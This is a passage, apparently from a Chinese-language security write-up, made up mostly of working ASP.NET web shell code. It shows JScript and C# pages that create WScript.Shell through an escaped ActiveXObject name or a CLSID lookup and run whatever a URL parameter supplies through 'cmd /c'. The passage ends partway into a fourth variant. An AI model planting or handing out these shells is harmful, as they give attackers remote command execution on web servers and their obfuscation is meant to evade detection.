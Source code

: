 ```
var r = new ActiveXObject(unescape("%57%53%63%72%69%70%74%2e%53%68%65%6c%6c")).Exec("cmd /c "+command);
var OutStream = r.StdOut;
var Str = "";
while (!OutStream.atEndOfStream) {
    Str = Str + OutStream.readAll();
    }
Response.Write("<pre>"+Str+"</pre>");
%>
```
在`Jscript`中使用`GetObject`创建`WScript.Shell`对象
```
<%@ Page Language="Jscript"%>
<%
var c=System.Web.HttpContext.Current;
var Request=c.Request;
var Response=c.Response;
var command = Request.Item['g'];
var r = GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8").Exec("cmd /c "+command);
var OutStream = r.StdOut;
var Str = "";
while (!OutStream.atEndOfStream) {

    Str = Str + OutStream.readAll();

    }
Response.Write("<pre>"+Str+"</pre>");
%>
```
在`C#`中使用`GetTypeFromCLSID`来创建`WScript.Shell`对象
```
<%@ Page Language="C#" %>
<%
string command = Request.QueryString["cmd"];
if (!string.IsNullOrEmpty(command))
{
    try
    {
        // 使用 System.Type.GetTypeFromCLSID 来创建 WScript.Shell 对象
        Type shellType = Type.GetTypeFromCLSID(new Guid("72C24DD5-D70A-438B-8A42-98424B88AFB8"));
        dynamic shell = Activator.CreateInstance(shellType);
        dynamic exec = shell.Exec("cmd.exe /c " + command);
        dynamic stdout = exec.StdOut;
        string output = "";
        while (!stdout.AtEndOfStream)
        {
            output += stdout.ReadLine() + "\n";
        }
        Response.Write(output);
    }
    catch (Exception ex)
    {
        Response.Write($"Error: {Server.HtmlEncode(ex.Message)}");
    }
}
else
{
    Response.Write("No command");
}
%>
```
在`C#`中使用`GetTypeFromProgID`来创建`WScript.Shell`对象
```
<%@ Page Language="C#" %>
```